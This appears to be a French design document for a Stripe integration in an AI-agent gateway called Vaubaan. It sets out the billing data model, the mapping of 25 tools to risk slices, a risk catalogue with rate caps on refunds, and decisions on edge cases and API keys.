

> **v4 document.** English rewrite scheduled by the v5 plan; `tracks` paths updated for the new layout.

# Stripe provider — modélisation v4 + runtime

Huitième provider Vaubaan, premier à introduire un risk au vecteur
`cost: unbounded` (sortie d'argent réelle via `refund-create`). Cible :
le **SaaS billing operator** — manager d'un SaaS direct-charge qui doit
piloter catalogue produits/prix, abonnements, coupons, factures,
remboursements et monitoring, sans toucher à Stripe Connect / Terminal /
Identity / Issuing.

- Un **data-model** explicite pour le plane unique `billing` (20 entités
  Stripe-natives + 2 entités synthétiques `customer.pii` et
  `webhook-endpoint.secret`).
- Un **calque `mode` (test/live)** marqué `envScopable: true` — c'est la
  clé API (`sk_test_*` / `sk_live_*`) qui pin le mode, jamais un argument
  de tool. Le runtime qualifie les risks cardinaux comme
  `stripe[live].refund-create` au mint.
- Un **mapping tool → slice(s)** sur 25 tools MCP wrappés sur Stripe REST
  v1 (10 reads, 15 writes).
- Un **catalogue de risks** (14 entrées + fallback) avec vecteur 6D
  raisonné, et `caps` + `infra_limits` (cf. ADR scope-caps-
  amplification-axis) sur l'unique risk `cost: unbounded` du provider
  (`refund-create`).
- Une **matrice de couverture** tool × risk garantissant qu'aucun tool ne
  tombe dans le vide.
- Une discussion des **edge cases** : refund fille de charge,
  webhook_endpoint.secret synthétique, `payment_intent.confirm` non
  exposé au MVP, dual-emission slices (customer.R + customer.pii.R,
  subscription.W + payment-intent.W, webhook-endpoint.W + secret.W).
- Un **runtime complet** : adapter paste-token, dispatcher REST
  `application/x-www-form-urlencoded`, 25 `McpToolDeclaration`
  entries, gateway wiring + `build.ts` + `provider-info.ts`.

Sourcing :

- Spec v4 — `docs/spec/gateway-risk-model.md` §2 (data-model), §3 (slice
  DSL), §4 + §4bis (catalogue + caps), §7 (plugin), §8 (runtime).
- ADR scope-caps — `docs/decisions/scope-caps-amplification-axis.md`
  (accepted 2026-06-17).
- ADR unified-gates-drop-confirm — `docs/decisions/unified-gates-drop-
confirm.md` (pas de `default_gate:` dans le YAML).
- Skill provider-modeler — `docs/skills/provider-modeler.md`.
- Phase A research — `.vaubaan/research/providers/stripe.md` (hors-git ;
  les 10 questions cardinales y ont été tranchées par Renaud le 2026-06-19).
- Context7 `/websites/stripe` — Stripe REST API v1, snapshot 2026-06-19.
- OWASP LLM01 + Five Eyes 2026-05 : irreversible-en-pratique des
  paiements, surface refund comme vecteur d'exfiltration financière.

---

## 0. Cadrage : pourquoi Stripe est dense mais cohérent

Les 7 providers précédents zonent soit par containment technique
(GitHub/Vercel/Supabase/Railway/SSH/Upstash-Redis) soit par identité
(Gmail). Stripe garde le zonage par containment mais **densifie le graphe** :
le métier billing est intrinsèquement dense (catalogue × customers ×
subs × invoices × payments × monitoring). Le graphe naturel autour de
`account` → `mode` reste cohérent et navigable.

Stripe introduit en revanche **trois nouveautés** vs le pattern existant :

1. **Le calque `mode` (test/live) joue le rôle `envScopable`.** Vercel le
   fait avec `env` (prod/preview/dev) ; Supabase avec `project` (un
   project_ref par env). Stripe le fait avec `mode` : un binding pin une
   clé API, et une clé API parle à exactement un mode. Les namespaces
   sont **strictement disjoints upstream** — aucun cross-mode addressing
   possible. Conséquence forte : le risk `stripe.refund-create` se
   qualifie en `stripe[live].refund-create` (vraie sortie d'argent) vs
   `stripe[test].refund-create` (sandbox, faible enjeu), et un manager
   peut accepter l'un sans l'autre.

2. **Le premier risk `cost: unbounded` du catalog Vaubaan.** Tous les
   autres providers tournent en `cost: free` ou `cost: moderate` (compute,
   bandwidth, quota API). Stripe `refund-create` touche du cash sortant
   du compte merchant — borné par le solde mais pas par un budget cloud.
   Couplé à `reversibility: irreversible` (un refund ne se reverse pas —
   il faut recharger le client, qui peut refuser), c'est le vecteur
   cardinal d'exfiltration financière par agent compromis. Caps stricts
   (3/min, 20/session) + infra ceiling (30/min hard) au catalog level.

3. **Deux entités synthétiques** au lieu d'une seule (cf. Vercel
   bypass-token, Gmail from-zone) :
   - `customer.pii` — overlay sur `customer` portant les champs
     RGPD/CCPA (email, name, address, phone, shipping). Le classifier
     émet `customer.R` ET `customer.pii.R` sur les mêmes appels REST,
     pour permettre à un operator d'accepter "stats anonymisées" sans
     débloquer l'identité.
   - `webhook-endpoint.secret` — overlay sur `webhook-endpoint` portant
     le `whsec_*` retourné UNIQUEMENT à la création. Stripe ne permet
     pas de re-lire le secret (rotation = delete + recreate). L'entité
     synthétique permet le risk `mint-webhook-secret` distinct de la
     simple config webhook (aligne `vercel.mint-bypass-token`).

---

## 1. Data-model du plane `billing`

> _« Un provider est une BDD mutable de `(entité_1, entité_2, …)` avec des
> side effects observables via `read` sur certaines entités. »_ (spec §2)

Stripe n'expose qu'**un seul plane** côté Vaubaan : `billing`. Stripe
Connect / Terminal / Identity / Issuing sont volontairement exclus du MVP
(cf. research §0). Tout vit sous `account` → `mode`.

### 1.1 Graphe d'entités



### 1.2 Cardinalités déclarées

| Path                                                                         | Cardinalité | Justification                                                                 |
| ---------------------------------------------------------------------------- | ----------- | ----------------------------------------------------------------------------- |
| `stripe.account`                                                             | `one`       | Un compte Stripe par binding (= une clé API).                                 |
| `stripe.account[A].mode`                                                     | `bounded`   | Triade fermée `{test, live}`. Binding pin l'un des deux. `envScopable: true`. |
| `stripe.account[A].mode[M].product[*]`                                       | `unbounded` | Catalogue produit potentiellement large.                                      |
| `stripe.account[A].mode[M].product[P].price[*]`                              | `bounded`   | Quelques prix par produit (monthly / yearly / tiers).                         |
| `stripe.account[A].mode[M].coupon[*]`                                        | `bounded`   | Dizaines de coupons actifs en pratique.                                       |
| `stripe.account[A].mode[M].coupon[C].promotion-code[*]`                      | `bounded`   | Dizaines de codes par coupon.                                                 |
| `stripe.account[A].mode[M].customer[*]`                                      | `unbounded` | Base clients SaaS — potentiellement très grande.                              |
| `stripe.account[A].mode[M].customer[C].pii`                                  | `one`       | Overlay synthétique singleton (champs PII associés au customer).              |
| `stripe.account[A].mode[M].customer[C].payment-method[*]`                    | `bounded`   | Quelques cartes / SEPA / wallets par client.                                  |
| `stripe.account[A].mode[M].customer[C].subscription[*]`                      | `bounded`   | Souvent 1 sub active par client.                                              |
| `stripe.account[A].mode[M].customer[C].subscription[S].subscription-item[*]` | `bounded`   | Souvent 1 item par sub.                                                       |
| `stripe.account[A].mode[M].customer[C].invoice[*]`                           | `unbounded` | Historique long (1/mois × N années pour les abonnements récurrents).          |
| `stripe.account[A].mode[M].customer[C].invoice[I].invoice-item[*]`           | `bounded`   | Quelques line items par invoice.                                              |
| `stripe.account[A].mode[M].payment-intent[*]`                                | `unbounded` | Historique paiements long.                                                    |
| `stripe.account[A].mode[M].payment-intent[PI].charge[*]`                     | `bounded`   | Typiquement 1 charge par PI ; retries → quelques charges.                     |
| `stripe.account[A].mode[M].payment-intent[PI].charge[CH].refund[*]`          | `bounded`   | Quelques refunds max par charge (partiels).                                   |
| `stripe.account[A].mode[M].balance`                                          | `one`       | Singleton snapshot du solde dispo + pending.                                  |
| `stripe.account[A].mode[M].balance-transaction[*]`                           | `unbounded` | Ledger append-only.                                                           |
| `stripe.account[A].mode[M].event[*]`                                         | `unbounded` | Feed audit append-only (Stripe retient 30j par défaut).                       |
| `stripe.account[A].mode[M].webhook-endpoint[*]`                              | `bounded`   | Dizaines max par compte.                                                      |
| `stripe.account[A].mode[M].webhook-endpoint[W].secret`                       | `one`       | Overlay synthétique singleton (le `whsec_*` retourné à la création).          |

### 1.3 Le calque `mode` — l'`envScopable` de Stripe

**Décision** (cf. research Q1) : `mode` est marqué `envScopable: true`,
porté par le binding via `provider_bindings.environment` (`'live'` ou
`'test'`). Le classifier injecte `mode[<env>]` dans chaque slice émise.

Justifications :

1. **Une clé API = un mode**. `sk_test_*` parle au namespace test ;
   `sk_live_*` parle au namespace live. Aucun crossover possible côté
   Stripe — les IDs (`cus_*`, `prod_*`, `ch_*`, etc.) sont disjoints.
2. **Le binding porte le mode**, pas le tool. L'agent n'a jamais de
   paramètre `mode` à passer — il est implicite par la clé API stockée.
3. **Permet la qualification fine du RiskId** au mint. Le risk catalog
   déclare `stripe.refund-create` ; le runtime qualifie en
   `stripe[live].refund-create` pour un binding live. Le manager peut
   accepter `stripe[test].refund-create` (sandbox sans enjeu) sans
   accepter `stripe[live].refund-create` (vraie sortie d'argent).

**Alternative rejetée** : un seul binding multi-mode avec un param
`mode` par tool. Casse l'invariant "un binding = un env" du gateway,
double la surface des tools, ouvre la porte à des erreurs de mode
catastrophiques (refund prod par erreur).

### 1.4 Le refund est fille de charge (pas de payment_intent)

Stripe modélise `refund` comme **enfant direct de `charge`**, pas de
`payment_intent`. Un PI peut produire plusieurs charges (retries), chaque
charge peut avoir plusieurs refunds (partiels). La REST API supporte les
deux filtres (`?charge=ch_X` et `?payment_intent=pi_Y`) ; le second
résout au PI parent puis remonte aux charges.

Le data-model Vaubaan reflète cette hiérarchie : `refund` est sous
`charge`, lui-même sous `payment-intent`. Le pattern catalog
`stripe.account[**].mode[**].payment-intent[**].charge[**].refund[**].W`
matche tous les writes de refund, qu'on filtre par PI ou par charge à
l'upstream. C'est l'un des slice paths les plus longs du provider — voulu
pour garder la cohérence data-model (research Q7).

### 1.5 Les deux overlays synthétiques

**`customer.pii`** — overlay singleton sur `customer` portant les champs
RGPD/CCPA-sensibles (`email`, `name`, `address`, `phone`, `shipping`). Le
classifier émet **deux slices** sur `list_customers` / `retrieve_customer` :
`customer.R` (payload business) ET `customer.pii.R` (payload PII). Le
manager peut accepter `read-billing-history` sans accepter
`read-customer-pii` — utile pour un agent "stats anonymisées" qui compte
les subs sans avoir besoin des identités.

**`webhook-endpoint.secret`** — overlay singleton sur `webhook-endpoint`
portant le `whsec_*` retourné à la création. Stripe ne re-livre jamais
le secret (rotation = delete + recreate). Le classifier émet **deux
slices** sur `create_webhook_endpoint` : `webhook-endpoint.W` (config)
ET `webhook-endpoint[*].secret.W` (credential mint). Le manager doit
accepter les deux risks (`webhook-endpoint-write` + `mint-webhook-secret`).
Aligne le pattern sur `vercel.mint-bypass-token` (credential minted via
opération atomique).

Ces deux overlays sont **synthétiques au sens "marker"** : ils n'ont pas
de propre id Stripe, pas d'endpoint REST distinct. Ils existent pour la
classification slice-level uniquement.

---

## 2. Mapping tool → slice(s)

25 tools MCP wrappés sur Stripe REST v1, organisés par use-case. La
colonne `mode-resolution` est toujours `binding` : Stripe lit le mode
depuis la clé API, jamais depuis les args.

### 2.1 Reads (10 tools)

| Tool MCP                       | REST endpoint             | Slice(s) émise(s)                                                                                                          |
| ------------------------------ | ------------------------- | -------------------------------------------------------------------------------------------------------------------------- |
| `stripe__list_products`        | `GET /v1/products`        | `stripe.account[A].mode[M].product[*].R`                                                                                   |
| `stripe__list_prices`          | `GET /v1/prices`          | `stripe.account[A].mode[M].product[P\|*].price[*].R`                                                                       |
| `stripe__list_customers`       | `GET /v1/customers`       | `stripe.account[A].mode[M].customer[*].R` + `stripe.account[A].mode[M].customer[*].pii.R`                                  |
| `stripe__retrieve_customer`    | `GET /v1/customers/:id`   | `stripe.account[A].mode[M].customer[C].R` + `stripe.account[A].mode[M].customer[C].pii.R`                                  |
| `stripe__list_subscriptions`   | `GET /v1/subscriptions`   | `stripe.account[A].mode[M].customer[C\|*].subscription[*].R`                                                               |
| `stripe__list_invoices`        | `GET /v1/invoices`        | `stripe.account[A].mode[M].customer[C\|*].invoice[*].R`                                                                    |
| `stripe__list_charges`         | `GET /v1/charges`         | `stripe.account[A].mode[M].payment-intent[*].charge[*].R`                                                                  |
| `stripe__list_payment_intents` | `GET /v1/payment_intents` | `stripe.account[A].mode[M].payment-intent[*].R`                                                                            |
| `stripe__get_balance`          | `GET /v1/balance`         | `stripe.account[A].mode[M].balance.R`                                                                                      |
| `stripe__list_events`          | `GET /v1/events`          | `stripe.account[A].mode[M].event[*].R` + `stripe.account[A].mode[M].balance-transaction[*].R` (events miroirent le ledger) |

### 2.2 Writes (15 tools)

| Tool MCP                          | REST endpoint                                   | Slice(s) émise(s)                                                                                                            |
| --------------------------------- | ----------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| `stripe__create_product`          | `POST /v1/products`                             | `stripe.account[A].mode[M].product.W`                                                                                        |
| `stripe__update_product`          | `POST /v1/products/:id`                         | `stripe.account[A].mode[M].product[P].W`                                                                                     |
| `stripe__create_price`            | `POST /v1/prices`                               | `stripe.account[A].mode[M].product[P].price.W`                                                                               |
| `stripe__update_price`            | `POST /v1/prices/:id`                           | `stripe.account[A].mode[M].product[*].price[X].W`                                                                            |
| `stripe__create_coupon`           | `POST /v1/coupons`                              | `stripe.account[A].mode[M].coupon.W`                                                                                         |
| `stripe__create_promotion_code`   | `POST /v1/promotion_codes`                      | `stripe.account[A].mode[M].coupon[C].promotion-code.W`                                                                       |
| `stripe__create_subscription`     | `POST /v1/subscriptions`                        | `stripe.account[A].mode[M].customer[C].subscription.W` + `stripe.account[A].mode[M].payment-intent.W` (worst-case proration) |
| `stripe__update_subscription`     | `POST /v1/subscriptions/:id`                    | `stripe.account[A].mode[M].customer[*].subscription[S].W`                                                                    |
| `stripe__cancel_subscription`     | `DELETE /v1/subscriptions/:id` (ou POST cancel) | `stripe.account[A].mode[M].customer[*].subscription[S].cancel.W`                                                             |
| `stripe__pause_subscription`      | `POST /v1/subscriptions/:id` (pause_collection) | `stripe.account[A].mode[M].customer[*].subscription[S].W` (mappe sur subscription-update)                                    |
| `stripe__create_invoice`          | `POST /v1/invoices`                             | `stripe.account[A].mode[M].customer[C].invoice.W`                                                                            |
| `stripe__finalize_invoice`        | `POST /v1/invoices/:id/finalize`                | `stripe.account[A].mode[M].customer[*].invoice[I].finalize.W`                                                                |
| `stripe__void_invoice`            | `POST /v1/invoices/:id/void`                    | `stripe.account[A].mode[M].customer[*].invoice[I].void.W`                                                                    |
| `stripe__create_refund`           | `POST /v1/refunds`                              | `stripe.account[A].mode[M].payment-intent[PI\|*].charge[CH\|*].refund.W`                                                     |
| `stripe__create_webhook_endpoint` | `POST /v1/webhook_endpoints`                    | `stripe.account[A].mode[M].webhook-endpoint.W` + `stripe.account[A].mode[M].webhook-endpoint[*].secret.W` (credential mint)  |

### 2.3 Tools volontairement non exposés au MVP

| Tool                               | Pourquoi exclus                                                                                          |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------- |
| `delete_customer`                  | Cascade catastrophique (subs, invoices, all related deleted). Cf. research §2.4.                         |
| `delete_product` / `delete_price`  | Stripe permet l'archive (`active: false`) — préférable pour audit.                                       |
| `payment_intent.confirm`           | Flow normal SaaS = `create_payment_intent { confirm: true }` atomique. Phase 2 si demande (research Q9). |
| `payment_intent.cancel`            | Peu utile MVP (annulation d'une intention non-confirmed). Ouvrable Phase 2.                              |
| Tools Stripe Connect               | `accounts.*`, `transfers.*`, `application_fees.*` — hors-scope (multi-tenant marketplace).               |
| Tools Stripe Terminal              | `terminal.*` — hors-scope (POS in-person).                                                               |
| Tools Stripe Identity              | `identity.*` — hors-scope (KYC).                                                                         |
| Tools Stripe Issuing               | `issuing.*` — hors-scope (cartes émises).                                                                |
| Tools Stripe Tax / Sigma / Climate | Hors-scope MVP.                                                                                          |

Tout tool absent de la liste §2.1/§2.2 tombera dans `denied: unknown
stripe tool` côté classifier. Si un tool est ajouté plus tard, deux
changements sont requis (fail-loud) :

1. Un case dans le `switch` du classifier (`risk-classifier.ts`).
2. Une entrée risk au catalog YAML+TS (sinon le fallback
   `stripe.uncategorized-write` matche, mais l'opérateur n'a pas de
   label utile).

---

## 3. Catalogue de risks

14 risks nommés + 1 fallback = 15 entrées. Cohérent avec Vercel (15 +
fallback) et Gmail (14 + fallback). Un seul risk porte `caps` +
`infra_limits` au MVP — `stripe.refund-create` (cf. §3.1).

| RiskId                                    | Action | acceptable_in_envs | caps / infra_limits                                                         | Pourquoi distinct                                                                                                |
| ----------------------------------------- | ------ | ------------------ | --------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------- |
| `stripe.read-catalog`                     | R      | —                  | —                                                                           | Metadata public-marketing. Aucune PII, aucun secret.                                                             |
| `stripe.read-billing-history`             | R      | —                  | —                                                                           | Subs/invoices/charges/PI. Trajectoire commerciale + analytics business. Distinct de pii.                         |
| `stripe.read-customer-pii`                | R      | —                  | —                                                                           | Overlay PII (email/name/address/phone). Surface RGPD/CCPA explicite — distinct pour permettre stats anonymisées. |
| `stripe.read-balance`                     | R      | —                  | —                                                                           | Cash position + ledger. Sensible direction financière mais pas PII. Permet un agent "ops monitoring".            |
| `stripe.catalog-write`                    | W      | —                  | —                                                                           | Catalog CRUD groupé (product/price/coupon/promotion-code). Soft posture-shift offre.                             |
| `stripe.subscription-create`              | W      | —                  | —                                                                           | Nouvelle sub. Side effect cash si proration immédiate (worst-case émis : sub.W + payment-intent.W).              |
| `stripe.subscription-update`              | W      | —                  | —                                                                           | Update plan/qty/pause. Costly si proration.                                                                      |
| `stripe.subscription-cancel`              | W      | —                  | —                                                                           | **Irreversible** sémantiquement. Stoppe la facturation future + perte d'accès client.                            |
| `stripe.invoice-create-draft`             | W      | —                  | —                                                                           | Draft invoice. Aucune notification, aucun mouvement. Réversible.                                                 |
| `stripe.invoice-finalize`                 | W      | —                  | —                                                                           | Lock invoice + notification email + tentative auto-collection. Costly.                                           |
| `stripe.invoice-void`                     | W      | —                  | —                                                                           | **Irreversible** (papertrail conservé mais invoice inerte). Impact comptable.                                    |
| `stripe.refund-create`                    | W      | —                  | **caps (1 item/call, 3 calls/min, 20 calls/session) + infra (30/min hard)** | **Cardinal cost: unbounded + irreversible**. Sortie d'argent réelle. Vecteur exfiltration financière.            |
| `stripe.webhook-endpoint-write`           | W      | —                  | —                                                                           | Config URL + events. Posture-shift : endpoint mal configuré → exfil data via webhook payload.                    |
| `stripe.mint-webhook-secret`              | W      | —                  | —                                                                           | Credential mint (`whsec_*` return-on-create-only). Distinct de webhook-endpoint-write.                           |
| `stripe.uncategorized-write` _(fallback)_ | W      | —                  | —                                                                           | Catch-all `stripe.[**].W`. Fail-loud quand un tool W non-catégorisé est ajouté.                                  |

Pour le détail (label, reason, vector 6D), cf.
[`plugins/stripe/src/risk-catalog.yaml`](../../../plugins/stripe/src/risk-catalog.yaml)
et son miroir TS
[`risk-catalog.ts`](../../../plugins/stripe/src/risk-catalog.ts).

### 3.1 Scope caps — pourquoi seulement sur `refund-create` ?

L'ADR scope-caps invite à _considérer_ caps + infra_limits pour chaque
risk. Le choix de n'en placer que sur `refund-create` est motivé :

1. **`refund-create`** est le seul risk Vaubaan à date avec
   `cost: unbounded` (sortie d'argent réelle), couplé à
   `reversibility: irreversible` (un refund ne se reverse pas — on doit
   recharger le client, qui peut refuser).
   - `items_per_call_max: 1` — pas de batch refund (Stripe REST ne
     supporte pas le batch d'office ; on cap explicitement pour
     signaler "un refund par décision").
   - `calls_per_minute_max: 3` (soft) — limite humainement contrôlable.
     Au-delà, un agent compromis exfiltre l'argent trop vite.
   - `calls_per_session_max: 20` — un agent ne devrait jamais faire 20+
     refunds en une session sans intervention humaine.
   - `infra_limits.calls_per_minute_max: 30` — hard ceiling au-dessus
     duquel l'agent risque de DOSer le compte Stripe (rate-limit
     upstream).

2. **Les 13 autres risks restent caps-free au MVP** :
   - `subscription-cancel` / `invoice-void` sont irreversibles mais
     **granulaires par item** — l'opérateur choisit explicitement
     chaque cancel / void via son arg `id`. Pas de mécanisme batch
     côté API.
   - `invoice-finalize` envoie un email automatique au client, mais
     c'est une opération métier normale (Stripe l'attend).
   - `subscription-create` / `subscription-update` peuvent prorate (et
     donc charger), mais le montant est borné par le plan tarifaire
     du sub — pas `cost: unbounded`.
   - `catalog-write`, `webhook-endpoint-write`, `mint-webhook-secret`
     sont des posture-shifts mais sans cumul amplifiable au catalog
     level.

À reconsidérer en Phase 2 si l'usage révèle des dérives. L'org peut
toujours poser des caps via `caps_defaults` au niveau org sur n'importe
quel risk sans modifier le catalog.

### 3.2 Qualification par mode — exemples

Au mint, le moteur Vaubaan qualifie chaque risk env-scopable selon le
binding :

```
catalog déclare       :  stripe.refund-create
binding env=live      →  stripe[live].refund-create   (cocher = vraie sortie d'argent)
binding env=test      →  stripe[test].refund-create   (cocher = sandbox)
```

Risks structurellement qualifiables par mode (intuition cardinale
"test ≠ live" matériellement) :

- `stripe.refund-create` (sortie d'argent réelle vs simulée)
- `stripe.subscription-cancel` (perte de revenu vs aucune)
- `stripe.subscription-create` (premier charge vs simulé)
- `stripe.subscription-update` (charge proratée vs simulée)
- `stripe.invoice-finalize` (email réel au client vs jamais envoyé)
- `stripe.invoice-void` (créance déclassée vs sans impact)
- `stripe.webhook-endpoint-write` (route les events live vs test)
- `stripe.mint-webhook-secret` (secret live vs test)

Risks non-qualifiables par mode (la décision manager ne change pas
matériellement entre test et live) :

- `stripe.read-catalog` (le catalog est par-mode mais sa lecture est
  inerte des deux côtés)
- `stripe.read-billing-history`, `stripe.read-customer-pii`,
  `stripe.read-balance` (la sensibilité est intrinsèquement plus haute
  en live, mais le manager veut généralement les deux ou aucun — pas
  de cas réaliste où on accepte read-pii test seulement)
- `stripe.catalog-write` (un catalog change en test sert à préparer le
  live — modes en miroir)
- `stripe.invoice-create-draft` (jamais notifié → mêmes conséquences
  test/live)
- `stripe.uncategorized-write` (fallback, qualification N/A)

### 3.3 `acceptable_in_envs` — pas utilisé au MVP

Aucun risk Stripe n'a `acceptable_in_envs: []` au MVP (contrairement à
`gmail.draft-to-zone-external-unbounded`). Justification : tous les
risks Stripe sont structurellement acceptables en test ET en live —
c'est l'arbitrage du manager au mint qui filtre (research Q4 / §3.3).

La question "faut-il bloquer structurellement `refund-create` ou
`subscription-cancel` en live ?" est ouverte (research §3.3 fin) :
on garde la souplesse au MVP, on referme si l'usage le dicte.

---

## 4. Edge cases — décisions actées

### 4.1 Mode (test/live) implicite via le binding (Q1)

**Décision** : `mode` est lu depuis `binding.environment` (`'live'` ou
`'test'`), jamais depuis les args du tool. Le classifier injecte
`mode[<env>]` dans chaque slice. Si le binding n'a pas d'`environment`
(legacy ou valeur garbage), fallback `mode[*]` pour ne PAS bypass le
catalog — le matcher accepte `[*]` comme any ident.

Conséquence : un agent ne peut **pas** spécifier "fais ce refund en
test" si son binding est live. La séparation est physique côté Stripe
(IDs disjoints) ET physique côté Vaubaan (binding pin la clé API).

### 4.2 Granularité du catalog — 1 risk groupé (Q2)

`product`, `price`, `coupon`, `promotion-code` sont 4 entités distinctes
mais sémantiquement proches (toutes "catalog admin"). On groupe en 1
risk `catalog-write` au MVP : un manager qui délègue le billing à un
agent n'a pas de raison pratique de séparer product de promotion-code
— c'est le même rôle métier.

Splittable en Phase 2 si un cas d'usage apparaît (ex : agent marketing
qui peut créer des coupons mais pas modifier les prix).

### 4.3 Customer PII overlay (Q3)

Le tool REST `retrieve_customer` retourne dans la même réponse :

- champs business (currency, balance, default_payment_method, metadata),
- champs PII (email, name, address, phone, shipping).

Le classifier émet **deux slices** : `customer[C].R` ET `customer[C].pii.R`.
Le token doit accepter les deux risks (`read-billing-history` +
`read-customer-pii`) pour passer l'appel. Pas de fuite par oubli, mais
bloque les use-cases "stats anonymisées".

**Phase 2** : un tool dédié `stripe__list_customers_anonymized` qui
strip les champs PII avant retour et n'émet que `customer[*].R`. Permet
le least-privilege "ops compte les clients sans voir les noms".

### 4.4 subscription-create émet sub.W + payment-intent.W (worst-case)

Stripe peut facturer immédiatement à la création de sub si la proration
est due (cas par défaut sans `billing_cycle_anchor`). Le classifier ne
sait pas a priori si ça va trigger un charge — dépend de
`proration_behavior`, `billing_cycle_anchor`, `default_payment_method`,
etc.

**Worst-case** : on émet systématiquement les deux slices. Le risk
`subscription-create` matche le premier ; le risk
`read-billing-history` (pattern `payment-intent[**].R`) ne matche pas le
W. Le fallback `uncategorized-write` matche le payment-intent.W si aucun
risk dédié n'est ajouté. C'est volontaire — l'opérateur qui accepte
sub-create accepte implicitement le fallback PI.W pour cette session.

**Phase 2** (optionnel) : risk dédié `stripe.payment-intent-write` qui
couvre les writes PI sans charger pour autant. Pas nécessaire au MVP
car aucun tool n'écrit directement sur PI hors de create_subscription.

### 4.5 webhook-endpoint + secret dual emission (Q8)

`create_webhook_endpoint` émet **deux slices** :
`webhook-endpoint.W` (config) ET `webhook-endpoint[*].secret.W` (mint).
Les deux risks distincts (`webhook-endpoint-write` +
`mint-webhook-secret`) doivent être acceptés.

Logique : créer un endpoint, c'est intrinsèquement aussi minter un
secret (le `whsec_*` retourné n'est jamais re-livrable). Distinguer les
deux risks permet au manager de voir clairement les deux dimensions au
mint UI. Aligne le pattern sur Vercel (`mint-bypass-token`).

### 4.6 Refund slice path long (6 segments)

`stripe.account[**].mode[**].payment-intent[**].charge[**].refund[**].W`
fait 6 segments. C'est l'un des slices les plus longs du provider.

**Décision** : on garde la hiérarchie complète. Justifications :

1. Cohérence avec le data-model (refund EST fille de charge fille de PI).
2. Permet un risk plus fin si un jour on veut distinguer "refund sur PI
   à montant ≥ X" (cap par charge).
3. Le coût (verbosité du pattern) est négligeable — le catalog n'est
   pas montré à l'opérateur, c'est le `label` qui l'est.

### 4.7 payment_intent.confirm non exposé au MVP (Q9)

`POST /v1/payment_intents/:id/confirm` déclenche le mouvement d'argent
quand le PI a `confirmation_method: manual`. Le flow normal SaaS
direct-charge passe par Stripe Checkout (côté client, confirmation
automatique) ou par `create_payment_intent { confirm: true }`
(atomique). L'appel `confirm` séparé est surtout utile pour les flows
manuels custom — peu fréquent en SaaS standard.

**Décision** : ne pas exposer au MVP. Si ouvert plus tard, risk dédié
`stripe.payment-intent-confirm` (qualifié par mode :
`stripe[live].payment-intent-confirm`), vecteur `reversibility:
irreversible`, `cost: unbounded` (déclenche le charge).

Tant que non exposé, un agent qui tenterait `stripe__confirm_payment_intent`
tombe dans `denied: unknown stripe tool` côté classifier (fail-loud).

### 4.8 `ScopeCaps.amount_per_call_max` — gap connu (Q10)

Pour `refund-create`, la cap qui aurait le plus de sens serait
`amount_per_call_max: 10000` ("max 100 € par refund"). Le type
`ScopeCaps` actuel (cf. `packages/shared/src/risk.ts`) n'expose que
`items_per_call_max`, `bytes_per_call_max`, `calls_per_*`. Pas de cap
par montant monétaire.

**Workaround MVP** : `items_per_call_max: 1` + rate caps bornent par
volume d'appels. Un refund de 50 000 € passe si le manager a accepté
`stripe[live].refund-create`. La défense en profondeur repose sur le
préfixe `[live]` du risk-id + l'acceptation humaine explicite, pas sur
une cap monétaire technique.

**Question ouverte pour Renaud / spec** : étendre `ScopeCaps` avec
`amount_per_call_max` (axe orthogonal motivé par les providers
billing) ? C'est un changement spec + type shared — pas pour cet ajout
provider.

### 4.9 pause_subscription mappe sur subscription-update

Stripe expose le "pause" comme un update avec le field `pause_collection`
(pas un endpoint distinct). Le classifier route donc
`stripe__pause_subscription` vers la slice `subscription[S].W` (matche
`stripe.subscription-update`), pas vers `subscription[S].cancel.W`.

Justification : techniquement c'est un update field, pas un cancel. Si
le manager accepte `subscription-update`, il accepte implicitement les
pauses. Si on voulait gater le pause distinctement, il faudrait un risk
dédié `stripe.subscription-pause` — pas justifié au MVP (le pause est
réversible et fréquent en pratique).

---

## 5. Binding metadata — shape attendue (MVP minimal)

Au MVP, le classifier Stripe n'a **aucun champ metadata requis** (à
l'inverse de Gmail qui a 5 champs). Tout ce dont il a besoin vient de :

- `binding.resource_ref` — l'id du compte Stripe (`acct_*`).
- `binding.environment` — `'live'` ou `'test'`.
- La clé API stockée dans `provider_credentials` (encryptée, jamais lue
  par le classifier, juste par l'adapter au moment de l'appel REST).

Phase 2 envisageable :

- `accepted_currencies: string[]` — gate les refund_create où la devise
  n'est pas dans la liste (défense en profondeur contre exfil multi-
  devise).
- `restricted_payment_methods: string[]` — gate certains types de PM
  pour refund (cartes seulement, pas SEPA, etc.).

Aucune de ces extensions n'est requise au MVP — le binding form web
peut rester minimal (juste la clé API + le mode).

---

## 6. OAuth / API key — credential model

Stripe n'utilise **pas OAuth** côté Vaubaan. L'opérateur génère une
**clé API restricted** depuis le dashboard Stripe (URL :
`https://dashboard.stripe.com/apikeys`), avec les permissions
strictement nécessaires aux tools exposés :

- `Products: Read+Write`, `Prices: Read+Write`, `Coupons: Read+Write`,
  `Promotion codes: Read+Write` (catalog).
- `Customers: Read` (PII overlay impose Read sur les champs PII).
- `Subscriptions: Read+Write`.
- `Invoices: Read+Write`.
- `Payment intents: Read+Write` (subscription-create peut émettre PI.W).
- `Charges: Read`.
- `Refunds: Write` (cardinal — gated par cap au catalog).
- `Balance: Read`, `Balance transactions: Read`, `Events: Read`.
- `Webhook endpoints: Read+Write+Mint`.

L'opérateur paste la clé dans le binding form. Vaubaan la chiffre via
libsodium (cf. ADR encryption) et la stocke dans `provider_credentials`.
À chaque appel `tools/call`, l'adapter récupère + déchiffre la clé,
appelle Stripe REST avec `Authorization: Bearer sk_test_xxx` ou
`Bearer sk_live_xxx` selon le mode du binding.

**Rotation** : si l'opérateur révoque la clé côté Stripe dashboard,
les appels Vaubaan échoueront avec un 401 upstream que l'adapter doit
traduire en erreur lisible. Phase 2 : detection + alerte automatique.

